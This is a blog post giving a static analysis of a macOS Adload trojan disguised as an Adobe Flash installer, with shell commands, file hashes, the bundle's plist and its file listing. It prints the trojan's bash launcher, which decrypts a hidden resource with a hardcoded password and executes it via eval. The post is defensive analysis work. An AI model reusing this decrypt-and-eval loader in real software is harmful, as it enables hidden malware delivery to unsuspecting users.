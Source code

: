 ```yaml
---
layout: post
title: Adload Sample, Part 1: Static Analysis
---
```

Happy New Year! Excuse my absense, while I have been away taking FOR508: Advanced Digital Forensics, Incident Response, and Threat Hunting, GIAC Certified Forensic Analyst (GCFA), and of course enjoying the holidays. Now that's all over I'm back to show you some static analysis of a macOS trojan I found today while conducting some research. Hope you enjoy and as always shoot any questions, or comments to ragingroosterrem@gmail.com.

### Tools Used:
- macOS High Sierra virtualized with Virtualbox
- Bash Commands: bash, cat, cd, clamscan, codesign, file, find, hdiutil, ls, md5, openssl, plutil, shasum
- VirusTotal

### The Story, YAFFD
I was googling a security tool called moloch + threat hunting and clicked on a link to what I thought was a security blog containing some juciy information. It was the third link, on the first page of results mind you! Instead of being served up some info to make my day better, I was redirected to Yet Another Fake Flash Downloader (YAFFD). Okay, I'd preffer to do some malware analysis anyway.

<img src="{{ site.baseurl }}/images/YAFFD.png">

### Analysis

1. After click the pretty button and downloading the .dmg, I fired up my bash shell and went to my downloads folder to see what gift I was given.
```
$ cd ~/Downloads

$ ls
AdobeFlashPlayerInstaller.dmg

$ file AdobeFlashPlayerInstaller.dmg 
AdobeFlashPlayerInstaller.dmg: zlib compressed data

$ md5 AdobeFlashPlayerInstaller.dmg 
MD5 (AdobeFlashPlayerInstaller.dmg) = 8c5a97b8234af7f41e03b4421904a8ff

$ shasum AdobeFlashPlayerInstaller.dmg 
b972667995d2ca1d205c3be4d57fc80814834970  AdobeFlashPlayerInstaller.dmg

$ codesign -dvvv AdobeFlashPlayerInstaller.dmg 
AdobeFlashPlayerInstaller.dmg: code object is not signed at all
```
Hey! Wouldn't Adobe sign this?

2. Let's tear into this .dmg like a candy bar.
```
$ hdiutil attach AdobeFlashPlayerInstaller.dmg 
Checksumming Protective Master Boot Record (MBR : 0)…
Protective Master Boot Record (MBR :: verified   CRC32 $7510EE46
Checksumming GPT Header (Primary GPT Header : 1)…
 GPT Header (Primary GPT Header : 1): verified   CRC32 $366ED316
Checksumming GPT Partition Data (Primary GPT Table : 2)…
GPT Partition Data (Primary GPT Tabl: verified   CRC32 $70831B84
Checksumming  (Apple_Free : 3)…
                    (Apple_Free : 3): verified   CRC32 $00000000
Checksumming disk image (Apple_HFS : 4)…
..............................................................................
          disk image (Apple_HFS : 4): verified   CRC32 $B3A8FFCC
Checksumming  (Apple_Free : 5)…
                    (Apple_Free : 5): verified   CRC32 $00000000
Checksumming GPT Partition Data (Backup GPT Table : 6)…
GPT Partition Data (Backup GPT Table: verified   CRC32 $70831B84
Checksumming GPT Header (Backup GPT Header : 7)…
  GPT Header (Backup GPT Header : 7): verified   CRC32 $00709B9F
verified   CRC32 $7647ACE4
/dev/disk1          	GUID_partition_scheme          	
/dev/disk1s1        	Apple_HFS                      	/Volumes/Player

$ cd /Volumes/Player/

$ find .
.
./.5692438210.png
./.DS_Store
./Player_210.app
./Player_210.app/Contents
./Player_210.app/Contents/_CodeSignature
./Player_210.app/Contents/_CodeSignature/CodeDirectory
./Player_210.app/Contents/_CodeSignature/CodeRequirements
./Player_210.app/Contents/_CodeSignature/CodeRequirements-1
./Player_210.app/Contents/_CodeSignature/CodeResources
./Player_210.app/Contents/_CodeSignature/CodeSignature
./Player_210.app/Contents/Info.plist
./Player_210.app/Contents/MacOS
./Player_210.app/Contents/MacOS/Xl5NyWPPpAg.cD3QOlw2RV1GoEhnKg
./Player_210.app/Contents/Resources
./Player_210.app/Contents/Resources/210
./Player_210.app/Contents/Resources/app5692438210.icns
./Player_210.app/Contents/Resources/enc
```
Looks similar to most other .dmg directory structures.

3. Let's take a look at the .dmg's Property List (plist) which stores some valuable app data.
```
$ cd /Volumes/Player/Player_210.app/

$ plutil -p Info.plist 
{
  "CFBundleExecutable" => "Xl5NyWPPpAg.cD3QOlw2RV1GoEhnKg"
  "CFBundleIconFile" => "app5692438210.icns"
  "CFBundleIdentifier" => "com.Xl5NyWPPpAg.cD3QOlw2RV1GoEhnKg"
  "CFBundleInfoDictionaryVersion" => "6.0"
  "CFBundleName" => "PlayerInstaller"
  "CFBundlePackageType" => "APPL"
  "CFBundleShortVersionString" => "1.0"
  "CFBundleSupportedPlatforms" => [
    0 => "MacOSX"
  ]
  "CFBundleVersion" => "5692438210"
  "LSMinimumSystemVersion" => "10.9"
  "NSHumanReadableCopyright" => "Copyright © 2017 All rights reserved."
  "NSPrincipalClass" => "NSApplication"
}
```
Looks like "Xl5NyWPPpAg.cD3QOlw2RV1GoEhnKg" is the binary executed by the .dmg.

4. Let's inspect the binary.
```
$ cd MacOS/

$ ls
Xl5NyWPPpAg.cD3QOlw2RV1GoEhnKg

$ file Xl5NyWPPpAg.cD3QOlw2RV1GoEhnKg 
Xl5NyWPPpAg.cD3QOlw2RV1GoEhnKg: Bourne-Again shell script text executable, ASCII text
```
Hey! That's a shell script, not a Macho. But, that's not too out of the extraordinary. 

5. Let's see what it does.
```
$ cat Xl5NyWPPpAg.cD3QOlw2RV1GoEhnKg 
#!/bin/bash
cd "$(dirname "$BASH_SOURCE")"
fileDir="$(dirname "$(pwd -P)")"
eval "$(openssl enc -base64 -d -aes-256-cbc -nosalt -pass pass:5692438210 <"$fileDir"/Resources/enc)"
```
